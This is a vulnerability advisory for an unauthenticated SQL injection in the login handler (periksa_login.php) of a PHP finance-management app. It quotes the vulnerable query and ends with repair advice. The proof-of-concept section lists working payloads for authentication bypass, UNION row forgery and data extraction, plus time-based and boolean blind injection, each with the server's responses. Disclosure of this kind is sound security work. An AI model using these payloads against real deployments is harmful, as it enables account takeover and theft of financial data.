



# Setiawan007 Sistem Informasi Keuangan /periksa_login.php?username= SQL injection (Unauthenticated)

## Author

- qwer1230011107

# NAME OF AFFECTED PRODUCT(S)

- Sistem Informasi Keuangan (personal/institutional finance management application)

## Vendor Homepage

- https://github.com/Setiawan007/Sistem-Informasi-Keuangan

# AFFECTED AND/OR FIXED VERSION(S)

## Vulnerable File

- /periksa_login.php

## VERSION(S)

- main branch (no release tag; README references demo `/v1`, snapshot audited 2026-11)

## Software Link

- https://github.com/Setiawan007/Sistem-Informasi-Keuangan/archive/refs/heads/main.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection (authentication bypass, UNION query, boolean-based and time-based blind)
- CWE-89

## Root Cause

`periksa_login.php` is the unauthenticated login handler. The `username` POST parameter is interpolated directly into the authentication query without any escaping or prepared statement (`workspace` source, periksa_login.php lines 6-9):

```php
$username = $_POST['username'];
$password = md5($_POST['password']);

$login = mysqli_query($koneksi, "SELECT * FROM user WHERE user_username='$username' AND user_password='$password'");
```

An attacker controls `$username` completely, including quote characters, so the WHERE clause can be terminated with `-- -` (bypassing the password condition entirely) or replaced with a `UNION SELECT` whose forged row is then loaded into `$_SESSION` (lines 14-18 read `user_id/user_nama/user_username/user_level` from the query result and redirect by `user_level`).

## Impact

- Unauthenticated authentication bypass as any user, including `administrator`.
- Full database extraction via UNION/boolean/time-based injection: the `keuangan` database holds financial transactions, debts/receivables, bank accounts and user credential hashes (unsalted MD5).
- Session content is attacker-controlled (forged row), enabling further logic abuse in deployed instances that ship the full application.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability Location:

- `username` parameter (POST) of `/periksa_login.php`

## Requests and Responses (local repro at http://127.0.0.1:8154/):

```
[baseline]  username=admin&password=wrongpass
            -> 302 Location: index.php?alert=gagal          (0.06s)

[PAYLOAD 1] username=admin'-- -&password=wrongpass
            -> 302 Location: admin/                          (0.05s)   AUTH BYPASS
            effective SQL: SELECT * FROM user WHERE user_username='admin'-- -' AND ...

[PAYLOAD 2] username=' UNION SELECT 1,'hacked','hacked','hacked','manajemen'-- -&password=wrongpass
            -> 302 Location: manajemen/                      (0.05s)   ROW FORGERY
            attacker fully controls the returned row and thus $_SESSION values

[PAYLOAD 3] username=' UNION SELECT 1,CONCAT_WS('|',version(),user(),database()),'x','y','administrator'-- -&password=wrongpass
            -> 302 Location: admin/                          (0.03s)   DATA INTO SESSION

[PAYLOAD 4] username=admin' AND SLEEP(5)-- -&password=wrongpass
            -> 302 index.php?alert=gagal                     (5.07s)   TIME-BASED BLIND

[PAYLOAD 5] username=admin' AND SUBSTRING(version(),1,1)='8'-- -  -> 302 admin/           (TRUE)
            username=admin' AND SUBSTRING(version(),1,1)='5'-- -  -> 302 index.php?alert=gagal (FALSE)
                                                                        BOOLEAN BLIND ORACLE
```

Full evidence transcript: `poc/F1-sqli.txt` (reproduce with `python -I scripts/_sk_poc.py`, all requests to 127.0.0.1 only).

## Screenshots (local instance 127.0.0.1:8154)

Normal login page:



Baseline wrong-password rejection (`index.php?alert=gagal`):



PoC run output (bypass redirects, forged-role redirect, 5.07s SLEEP timing):



# Suggested repair

1. **Use prepared statements and parameter binding:**
   Replace the interpolated query with `mysqli_prepare` / `bind_param('ss', $username, $password_hash)` so user input can never alter query structure.

2. **Input validation and filtering:**
   Reject usernames containing quote/comment characters and validate against the expected format before any database use.

3. **Minimize database user permissions:**
   The application account must not own `GRANT`-level rights; `koneksi.php` shipping with `root` and an empty password encourages full-compromise deployments.

4. **Regular security audits:**
   The authentication handler is the most exposed code path of the application and should be covered by automated injection tests (e.g. in CI) given the project's multi-user financial data.
